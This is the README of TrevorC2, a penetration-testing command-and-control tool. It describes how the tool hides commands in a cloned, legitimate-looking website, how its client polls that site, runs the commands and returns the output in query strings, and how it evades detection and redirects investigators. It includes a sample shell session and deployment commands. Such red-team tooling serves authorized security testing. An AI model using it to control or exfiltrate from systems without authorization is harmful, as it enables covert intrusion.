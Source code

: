 trevorc2
=======

# TrevorC2 - Command and Control via Legitimate Behavior over HTTP

Written by: Dave Kennedy (@HackingDave)
Website: https://www.trustedsec.com

Note that this is a very early release - heavy randomization and encryption to be added soon.

TrevorC2 is a client/server model for masking command and control through a normally browsable website. Detection becomes much harder as time intervals are different and does not use POST requests for data exfil. 


           ,  .'''''.  ...    ''''',  .'           
            ','     ,.MMMM;.;'      '.             
             ;;    ;MMMMMMMMM;     ;;'             
            :'M:  ;MMMMMMMMMMM;.  :M':             
            : M:  MMMMMMMMMMMMM:  :M  .           
           .' M:  MMMMMMMMMMMMM:  :M. ;           
           ; :M'  :MMMMMMMMMMMM'  'M: :           
           : :M: .;"MMMMMMMMM":;. ,M: :           
           :  ::,MMM;.M":::M.;MMM ::' :           
         ,.;    ;MMMMMM;:MMMMMMMM:    :,.         
         MMM.;.,MMMMMMMM;MMMMMMMM;.,;.MMM         
         M':''':MMMMMMMMM;MMMMMMMM: "': M         
         M.:   ;MMMMMMMMMMMMMMMMMM;   : M         
         :::   MMMMMMMMMMM;MMMMMMMM   ::M         
        ,'';   MMMMMMMMMMMM:MMMMMMM   :'".         
      ,'   :   MMMMMMMMMMMM:MMMMMMM   :   '.       
     '     :  'MMMMMMMMMMMMM:MMMMMM   ;     '     
     ,.....;.. MMMMMMMMMMMMM:MMMMMM ..:....;.     
     :MMMMMMMM MMMMMMMMMMMMM:MMMMMM MMMMMMMM:     
     :MM''':"" MMMMMMMMMMMMM:MMMMMM "": "'MM:     
      MM:   :  MMMMMMMMMMMMM:MMMMMM  ,'  :MM       
      'MM   :  :MMMMMMMMMMMM:MMMMM:  :   ;M:       
       :M;  :  'MMMMMMMMMMMMMMMMMM'  :  ;MM       
       :MM. :   :MMMMMMMMMM;MMMMM:   :  MM:       
        :M: :    MMMMMMMMM'MMMMMM'   : :MM'       
        'MM :    "MMMMMMM:;MMMMM"   ,' ;M"         
         'M  :    ""''':;;;'''""    :  M:         
         ;'  :     "MMMMMMMM;."     :  "".         
       ,;    :      :MMMMMMM:;.     :    '.       
      :'     :    ,MM'''""''':M:    :     ';       
     ;'      :    ;M'         MM.   :       ;.     

There are two components to TrevorC2 - the client and the server. The client can be configured to be used with anything. In this example it's coded in Python but can easily be ported to C#, PowerShell, or whatever you want. Currently the trevorc2_client.py supports Windows, MacOS, and Linux. You can always byte compile the Windows one to get an executable, but preference would be to use Windows without having to drop an executable as a stager.

The way that the server works is by tucking away a parameter thats right before the </body> parameter. This is completely configurable, and it's recommended you configure everything to be unique in order to evade detection. Here is the workflow:

    1. trevor2_server.py - edit the file first, and customize, what website you want to clone, etc. The server will clone a website of your choosing and stand up a server. This server is browsable by anyone and looks like a legitimate website. Contained within the source is parameter that (again is configurable), which contains the instructions for the client. Once a client connects, it searches for that parameter, then uses it to execute commands.
    2. trevor2_client.py - all you need in any configurable option is the ability to call out to a website, parse some basic data, and then execute a command and then put the results in a base64 encoded query string parameter to the site. That's it, not hard. 
    3. trevor2_client.ps1 - powershell implementation of trevor2_client.py, this allows you to use native PowerShell to interact with Trevor2_Server.

## Installation

pip install -r requirements.txt

## Usage

First edit the trevor2_server.py - change the configuration options and site to clone.

python trevor2_server.py

Next, edit the trevor2_client.py or ps1 - change the configuration and system you want it to communicate back to. 

python trevor2_client.py or .\trevor2_client.ps1

## Session Management

TrevorC2 supports the ability to handle multiple shells coming from different hostnames. The way TrevorC2 works is it will identify new hostnames as sessions. You can interact with the sessions once you execute a command. If you have multiple sessions, you can type a command and interact with that session based on the session number stored globally. 

When first starting TrevorC2, you can type help or ? for additional information. Basic command usage is "list" which will list any active shells or none at all, or "interact <session_id>" to interact with the shell you want. 

You can always type back/exit within a shell, it will still remain active and not actually kill the shell.

Example below:

```
root@stronghold:/home/relik/Desktop/git/trevorc2# python trevorc2_server.py 

TrevorC2 - Legitimate Website Covert Channel
Written by: David Kennedy (@HackingDave)
https://www.trustedsec.com
[*] Cloning website: https://www.google.com
[*] Site cloned successfully.
[*] Starting Trevor C2 Server...
[*] Next, enter the command you want the victim to execute.
[*] Client uses random intervals, this may take a few.
[*] Type help for usage. Example commands, list, interact.

Trevor C2 shell
trevorc2>help

Documented commands (type help <topic>):
========================================
exit  help  interact  list  servercmd

trevorc2>list
No available Agents. :-(

trevorc2>
*** Received connection from 127.0.0.1 and hostname stronghold with communication sid pSNIRFgTuZnCdHN for TrevorC2.

trevorc2>list

trevorc2>list
id  hostname                ip address        communication_sessionid
1   stronghold              127.0.0.1         pSNIRFgTuZnCdHN

trevorc2>interact 1
[*] Dropping into trevorc2 shell...
[*] Use exit or back to select other shells
stronghold:trevorc2>ifconfig
[*] Waiting for command to be executed, be patient, results will be displayed here...
[*] Received response back from client...
=-=-=-=-=-=-=-=-=-=-=
(HOSTNAME: stronghold
CLIENT: 127.0.0.1)
ens33     Link encap:Ethernet  HWaddr 00:0c:29:63:7c:67  
          inet addr:172.16.37.132  Bcast:172.16.37.255  Mask:255.255.255.0
          inet6 addr: fe80::4b6b:fb52:f109:a7af/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1400907 errors:0 dropped:0 overruns:0 frame:0
          TX packets:2588882 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:835091244 (835.0 MB)  TX bytes:2623070556 (2.6 GB)

lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:453640 errors:0 dropped:0 overruns:0 frame:0
          TX packets:453640 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:211565776 (211.5 MB)  TX bytes:211565776 (211.5 MB)


stronghold:trevorc2>back
trevorc2>exit
[*] Exiting TrevorC2... 
```

## Dockerfile
Uses an alpine-based Dockerfile to deploy trevorC2, handy for quick deployment on cloud providers.  
Example below:

```bash
git clone https://github.com/trustedsec/trevorc2.git
cd trevorc2
# At this point, setting up docker-machine to remotly deploy works great
docker build -t trevorc2 . 
docker run -it -p 80:80 -p 443:443 trevorc2
```

## Variables configuration

It is important to change the variables that are presented in each of the scripts. Especially the SITE_PATH_QUERY and encryption key. I would also recommend looking at the REDIRECT option. Instead of cloning a website, you have another option which will redirect the victim host that may be browsing the site to investigate to the legitimate site. Basically when someone visits the site, it'll just redirect them to the site you want cloned. Change the cloned site from google for example to a different site and turn redirect to ON.

## TODO

#### Add ability for longer than 2048 data output. Query string parameter length limited size length.
#### Add do_POST support for POST exfil on longer data.
#### Add upload/download functionality.
